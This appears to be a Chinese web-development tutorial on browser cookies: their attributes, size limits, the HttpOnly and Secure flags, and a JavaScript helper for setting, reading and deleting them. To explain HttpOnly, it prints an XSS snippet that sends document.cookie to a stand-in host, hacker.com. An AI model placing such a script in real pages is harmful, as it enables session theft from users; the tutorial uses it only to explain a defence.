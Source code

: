 ## cookie
`cookie` 是存储在浏览器的一小段文本信息。

### cookie 特征
- 伴随着 `http` 地请求往返于浏览器和服务器之间。
- 不同域名或不同路径下 cookie 的存储区域是不一样的。
- 每个域名下的 cookie 总数是有限的，每个浏览器所能允许存储的 cookie 大小也是有限制的。

  浏览器|每个域名最大 cookie 总数|cookie 总字节数
  --|--|--
  Chrome|180|4096
  Firefox|150|4097
  InternetExplorer|50|5117
  Opera|60|4096
  Safari|600|4093
- 不可跨域，有实效性等。

### cookie 作用
- 标识用户身份。
- 同源下，跨页面通信的一种方式。

### cookie 原理
- 浏览器第一次请求，服务器通过响应头下发 cookie，标识用户身份。
- 浏览器第二次请求，会自动带上符合条件的 cookie，服务器根据 cookie 辨识身份，来返回合理的响应体。

![cookie-原理.png](imgs/cookie-原理.png)

### cookie 属性
**name**: 同一 domain 且同一 path 下的 cookie-name 不可相同，否则会覆盖前者（三者相同）。有两个特殊的 name：

name|含义
--|--
__Secure- 前缀|以 __Secure- 为前缀的 cookie（其中连接符是前缀的一部分），必须与 secure 属性一同设置，同时必须应用于安全页面（即使用 HTTPS 访问的页面）
__Host- 前缀|以 __Host- 为前缀的 cookie，必须与 secure 属性一同设置，必须应用于安全页面（即使用 HTTPS 访问的页面），必须不能设置 domain 属性 （也就不会发送给子域），同时 path 属性的值必须为“/”

> [谷歌搜索](https://www.google.com/)就存在带有这种特殊前缀的 cookie-name。

**value**: 许多应用对其进行了编码，但按照 RFC 规范，无须编码。

**domain**: 控制 cookie 对哪个域有效。默认值是自动绑定当前站点的根路径。
- 不可跨域，比如在 localhost:5000 下不可设置 domain 为 127.0.0.1:7001 站点下的 cookie。
- 一级域名相同下的 cookie 可作用于二级域名，但是二级域名间不可交换使用。<br />比如：a.baidu.com 和 b.baidu.com 可使用 .baidu.com 域名下的 cookie，但 a.baidu.com 和 b.baidu.com 站点下的 cookie 不可相互使用。

**path**: 设置 cookie 的作用路径（就是页面路由 pathname）。

场景|含义
--|--
设置 cookie 时，缺省 path|默认是当前页面的 pathname
用户访问 /|只能使用 / 路径下的 cookie，不能使用子路径（/spa、/ssr）下的 cookie。
用户访问 /spa|可使用 / 和 /spa 下的 cookie，但不能使用 /ssr 下的 cookie。
在 / 路径下可设置 /spa 路径下的 cookie|能设置成功。但是 chrome 浏览器的 cookie 面板只显示作用于当前窗口的 cookie。firefox 浏览器的 cookie 面板上显示（不管 cookie 是否作用于当前路由）。

**expires/max-age**: 设置 cookie 的过期时间。默认是 session，浏览器会话结束（关闭浏览器）时。
  - expires 是一个时间点，单位**毫秒**； 
  - max-age 是一个以**秒**为时间的时间段。可能的值：负数、0、正数。
    值|含义
    --|--
    负数|有效期为 session
    0|删除 cookie
    正数|有效期为创建时刻 + 最大时间

    ``` js
    // 两年后过期：
    const expires = new Date(Date.now() + 2 * 365 * 24 * 3600 * 1000).toGMTString()
    const maxAge = 2 * 365 * 24 * 3600;
    ```

> 同时设置 max-age 和 expires 时，max-age 优先级更高。

**secure**: 默认情况下，不管是 http、https 协议的请求都会把 cookie 发送到服务端。设置 secure 为 true 时，此时的 cookie 只能在 https 等安全协议下传输。
> 注意：只有是在 https 安全协议下的 web 站点，才能设置 secure 的值。

**HttpOnly**: 是否禁止浏览器通过 document.cookie 获取 cookie。这样能有效防止 XSS 攻击。假如 hacker 植入 script 脚本成功了且目标站点 HttpOnly 又设置为 false，那么 hacker 可轻松获取用户的 cookie：

``` js
<script>
  new Image().src = 'http://www.hacker.com/c=' + decodeURIComponent(document.cookie)
</script>
```

### cookie 设置、获取、删除
``` js
const doCookie = {
  get: function(name) {
    const urlSearchParams = new URLSearchParams(document.cookie.replace(/;\s/g, '&'))
    return urlSearchParams.get(name)

    /**
     * 
        var match = document.cookie.match(new RegExp('(^|;\\s*)(' + name + ')=([^;]*)'));
        return (match ? decodeURIComponent(match[3]) : null);
     */
  },
  set: function({ name, value, domain, path, expires, maxAge, secure }) {
    const anns = [
      `${name}=${encodeURIComponent(value)}`
    ]

    if (typeof domain === 'string') anns.push(`domain=${domain}`)
    if (typeof path === 'string') anns.push(`path=${path}`)
    if (typeof expires === 'number') {
      expires = new Date(Date.now() + expires).toGMTString()
      anns.push(`expires=${expires}`)
    }
    typeof maxAge === 'number' && anns.push(`max-age=${maxAge}`)
    secure === true && anns.push('secure')
    
    document.cookie = anns.join('; ')
  },
  delete: function(args) {
    args.maxAge = 0
    this.set(args)
  }
}
```

### cookie 优缺点
优点：
- 扩展性和可用性较强
- 加密技术得当且不存放敏感数据，减少破解的可能性。

缺点：
- 有数量（20 条）和长度限制（超出 4kb，会被裁掉）。
- 安全性问题，要防范 cookie 拦截。

### refs
- [MDN Set-Cookie](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie)
- [XSS攻击之窃取Cookie](https://blog.fundebug.com/2017/08/16/xss_steal_cookie/)
- [axios cookies.js](https://github1s.com/axios/axios/blob/HEAD/lib/helpers/cookies.js#L34-L36)
- [Cookie 的优缺点](https://www.jianshu.com/p/0a8a4eed337f)
